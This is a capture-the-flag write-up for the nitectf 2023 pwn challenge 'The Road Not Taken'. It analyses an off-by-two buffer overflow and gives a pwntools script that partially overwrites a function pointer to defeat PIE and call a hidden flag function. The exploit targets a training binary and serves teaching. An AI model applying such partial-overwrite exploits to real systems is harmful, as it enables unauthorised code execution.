 ```yaml
---
title: The Road Not Taken
author: capang
date: 2024-01-03 09:30:00 +0800
categories: [Writeups, PWN]
tags: [nitectf 2023]
math: true
mermaid: true
---
```


# Overview

The main goal is to manipulate the execution flow by exploiting PIE randomization into calling the `right_direction` function.

## Source File

[Download Source File]({{site.url}}/assets/files/road_not_taken.zip)

## Analysis

File check

```bash
$ file the_road_not_taken1 
the_road_not_taken1: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=fbde2c5d6b8f1315d7b2634ae43d339d49aaa455, for GNU/Linux 4.4.0, not stripped
```

Security Check

```bash
checksec --file the_road_not_taken1 
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

**Key Findings**
- file is a 64bit binary
- dynamically linked -> means it will fetch libc functions
- not stripped -> functions name stays, we can see it in ghidra/ida
Security 
- no stack canary, possible buffer overflow
- PIE, address of the functions/gadgets will be randomized

**Execution Testing**

```bash
$ ./the_road_not_taken1 
Can you please lead me to the right direction to get to the flag?
yoko
This doesn't look like the right direction are u sure
```

```bash
./the_road_not_taken1 
Can you please lead me to the right direction to get to the flag?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
This doesn't look like the right direction are u sure
```

hm, no seg fault? no overflow?

**Decompiler checking**

`main function`

```
void main(void)

{
  undefined local_218 [520];
  code *local_10;
  
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  local_10 = wrongdirection;
  puts("Can you please lead me to the right direction to get to the flag?");
  read(0,local_218,0x20a);
  (*local_10)();
  return;
}

```

`wrong_direction`

```
void wrongdirection(void)

{
  puts("This doesn\'t look like the right direction are u sure");
  return;
}
```
right_direction
```
void rightdirection(void)

{
  puts("Thanks for the help");
  puts("nite{not_the_real_flag}");
  return;
}
```

There is indeed buffer overflow in the main function!
Its just damn big.

```C
undefined local_218 [520]; # buffer size 520
read(0,local_218,0x20a); # reads 0x20a = 522
```

so we can only overflow 2 bytes, not enough to replace all of the return address to go to right_direction functions

however last 2 bytes of PIE wont change 
"Due to the way PIE randomisation works, the base address of a PIE executable will **always** end in the hexadecimal characters `000`. This is because **pages** are the things being randomised in memory, which have a standard size of `0x1000`. Operating Systems keep track of page tables which point to each section of memory and define the permissions for each section, similar to segmentation.

Checking the base address ends in `000` should _probably_ be the first thing you do if your exploit is not working as you expected." from https://ir0nstone.gitbook.io/notes/types/stack/pie 

# Solution

we can find the offset of the right_direction function and put it at the end of our payload

```python
io = start()
padding = 520
right = elf.symbols.rightdirection
offset = b'A'*padding
offset = b'A'*520
payload = offset + b'\x59\x11'
io.recvline()
io.sendline(payload)
print(io.recvline())
print(io.recvline())
```

however this wont work because the offset will be added into the base address
example:
- base address = 0x11111000
- right_direction offset = 0x1000
- right_direction address = 0x11112000
To solve this we need to loop many times through the connection and get the base address fit with our payload


``` python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)
# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())
# Set up pwntools for the correct architecture
exe = './the_road_not_taken1'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'
# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
io = start()
padding = 520
right = elf.symbols.rightdirection
offset = b'A'*padding


for j in range(0,100):

    try:

        offset = b'A'*520
        payload = offset + b'\x59\x11'
        io.recvline()
        io.sendline(payload)
        print(io.recvline())
        print(io.recvline())
    except EOFError:
        pass

```

nite{R0b3rT_fro5t_ftw_32dx5hp}